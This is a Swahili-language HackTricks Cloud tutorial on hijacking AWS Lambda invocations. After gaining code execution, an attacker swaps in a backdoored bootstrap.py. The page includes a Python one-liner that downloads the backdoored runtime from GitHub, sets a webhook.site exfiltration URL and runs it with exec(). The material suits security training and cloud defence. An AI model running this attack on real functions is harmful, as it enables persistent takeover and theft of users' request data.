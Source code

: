 # AWS - Iba Lambda Maombi

<details>

<summary><strong>Jifunze kuhusu udukuzi wa AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA USAJILI**](https://github.com/sponsors/carlospolop)!
* Pata [**swag rasmi ya PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa kipekee wa [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu zako za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>

## Mchakato wa Lambda

<figure><img src="../../../../.gitbook/assets/image (152).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** ni mchakato nje ya chombo ambao **hutuma** **wito** kwa mchakato wa **init**.
2. Mchakato wa init husikiliza kwenye bandari **9001** ukiweka wazi baadhi ya vituo vya kuvutia:
* **`/2018-06-01/runtime/invocation/next`** – pata tukio la wito linalofuata
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – rudisha jibu la kushughulikia kwa wito
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – rudisha kosa la utekelezaji
3. **bootstrap.py** ina mzunguko unapata maombi kutoka kwa mchakato wa init na kuita nambari ya mtumiaji kushughulikia (**`/next`**).
4. Hatimaye, **bootstrap.py** inatuma kwa init **jibu**

Tambua kuwa bootstrap inapakia nambari ya mtumiaji kama moduli, hivyo utekelezaji wa nambari uliofanywa na nambari ya mtumiaji unatokea katika mchakato huu.

## Kuiba Maombi ya Lambda

Lengo la shambulio hili ni kufanya nambari ya mtumiaji itekeleze mchakato mbaya wa **`bootstrap.py`** ndani ya mchakato wa **`bootstrap.py`** ambao unashughulikia ombi lenye kasoro. Kwa njia hii, mchakato wa **bootstrap mbaya** utaanza **kuzungumza na mchakato wa init** kushughulikia maombi wakati **bootstrap halali** umekwama ukiendesha mmoja mbaya, hivyo hautauliza maombi kwa mchakato wa init.&#x20;

Hii ni kazi rahisi kufanikisha kwani nambari ya mtumiaji inatekelezwa na **`bootstrap.py`** halali. Kwa hivyo, muhusika anaweza:

* **Tuma matokeo bandia ya wito wa sasa kwa mchakato wa init**, hivyo init inadhani mchakato wa bootstrap unangojea maombi zaidi.
* Ombi lazima litumwe kwa **`/${invoke-id}/response`**&#x20;
* Invoke-id inaweza kupatikana kutoka kwenye rundo la **`bootstrap.py`** halali kutumia moduli ya python ya [**inspect**](https://docs.python.org/3/library/inspect.html) (kama [ilivyopendekezwa hapa](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch\_runtime.py)) au tu kuomba tena kwa **`/2018-06-01/runtime/invocation/next`** (kama [ilivyopendekezwa hapa](https://github.com/Djkusik/serverless\_persistency\_poc/blob/master/gcp/exploit\_files/switcher.py)).
* Tekeleza **`boostrap.py`** mbaya ambao utashughulikia maombi yajayo
* Kwa madhumuni ya kuficha, ni rahisi kutuma vigezo vya maombi ya lambda kwa C2 inayodhibitiwa na muhusika na kisha kushughulikia maombi kama kawaida.
* Kwa shambulio hili, ni vya kutosha kupata nambari ya awali ya **`bootstrap.py`** kutoka kwa mfumo au [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py), ongeza nambari mbaya na uite kutoka kwa wito wa lambda wa sasa.

### Hatua za Shambulio

1. Pata **udhaifu wa RCE**.
2. Unda **bootstrap** mbaya (k.m. [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py))
3. **Tekeleza** bootstrap mbaya.

Unaweza kufanya vitendo hivi kwa urahisi ukiendesha:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
Kwa maelezo zaidi angalia [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda\_bootstrap\_switcher)

## Marejeo

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

<details>

<summary><strong>Jifunze AWS hacking kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu zako za kuhack kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
